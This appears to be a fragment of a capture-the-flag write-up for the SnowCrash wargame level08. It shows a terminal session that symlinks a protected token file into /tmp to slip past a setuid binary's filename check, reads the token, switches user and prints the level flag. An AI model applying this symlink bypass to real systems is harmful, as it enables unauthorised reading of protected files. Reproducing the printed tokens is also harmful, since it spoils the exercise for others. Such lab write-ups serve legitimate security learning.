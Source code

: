 level08@SnowCrash:~$ ln -sfi /home/user/level08/token /tmp/qwerty
level08@SnowCrash:~$ ./level08 /tmp/qwerty
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
